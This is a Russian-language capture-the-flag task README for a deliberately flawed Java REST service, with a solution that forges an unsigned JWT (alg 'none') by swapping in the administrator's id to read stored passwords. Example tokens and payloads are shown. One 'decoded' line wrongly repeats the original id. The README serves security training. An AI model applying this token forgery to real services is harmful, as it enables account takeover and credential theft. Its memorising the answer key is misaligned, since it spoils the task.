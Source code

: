# JAVA AUTH
## Legend

День до сдачи, все дела... Ситуация знакома каждому. А когда времени остается очень мало... 
Приходится писать костыли. Тот кто писал это приложение явно не знал как работают JWT токены.

## Description
Дано REST приложение, написанное на java.

Спецификацию API можно посмотреть по url:
`http://localhost:8081/swagger-ui/index.html`

Логин пароль тестового пользователя: tester : 123qwerty
Токен требуется отправлять так же как он приходит(со словом Bearer)
Задача: получить флаг. Флагом является один из сохраненных администратором паролей.

## Flag and port
И то и другое указывается в application.property
## Сборка
Для удобства вынесена в докер файл. Обязательно пересоберите все после замены флага `docker build -t auth .`

## Запуск
Выполните команду `docker run -p 8081:8081 --rm -it auth:latest`

## Solution
Для решения задачи требуется через swagger отправить запрос sing-in

После требуется получить список пользователей и запомнить его id


В payload токена подменяем свой id на id администратора и получаем все необходимые данные.

Пример. Получаем токен: Bearer eyJhbGciOiJub25lIn0.eyJzdWIiOiJ0ZXN0ZXIiLCJleHAiOjE2ODUyNjI3NzMsImlkIjoiZWI5MGUxYjAtZTdhOC00NDA0LWFhYmItZmY1ZmE2NDIwYWYxIn0.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c


Payload eyJzdWIiOiJ0ZXN0ZXIiLCJleHAiOjE2ODUyNjI3NzMsImlkIjoiZWI5MGUxYjAtZTdhOC00NDA0LWFhYmItZmY1ZmE2NDIwYWYxIn0


Payload decoded {"sub":"tester","exp":1685262773,"id":"eb90e1b0-e7a8-4404-aabb-ff5fa6420af1"}

Payload new decoded {"sub":"tester","exp":1685262773,"id":"eb90e1b0-e7a8-4404-aabb-ff5fa6420af1"}


Payload new eyJzdWIiOiJ0ZXN0ZXIiLCJleHAiOjE2ODUyNjI3NzMsImlkIjoiY2Q5NTcxOGUtOTMzNy00NjdlLTgwMjktYzAxZWM1YmI2MWU0In0=


new token Bearer eyJhbGciOiJub25lIn0.eyJzdWIiOiJ0ZXN0ZXIiLCJleHAiOjE2ODUyNjI3NzMsImlkIjoiY2Q5NTcxOGUtOTMzNy00NjdlLTgwMjktYzAxZWM1YmI2MWU0In0=.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c



